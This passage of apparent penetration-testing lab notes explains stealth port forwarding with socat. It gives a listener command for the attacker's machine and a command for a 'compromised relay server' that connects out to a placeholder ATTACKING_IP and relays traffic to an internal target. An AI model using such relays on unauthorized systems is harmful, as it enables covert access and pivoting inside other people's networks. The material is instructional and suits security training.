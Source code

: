 ### **Port Forwarding - Stealth**

We can also port forward, but without opening any ports on the server!

First of all, on our own attacking machine, we issue the following command:

```text
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on the compromised relay server we execute this command:

```text
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

 This would create a link between port 8000 on our attacking machine, and port 80 on the intended target , meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

* The request goes to `127.0.0.1:8000`
* Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
* Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

* The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
* Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

### Close Connections

 Run the `jobs` command in your terminal, then kill any socat processes using `kill %NUMBER.`

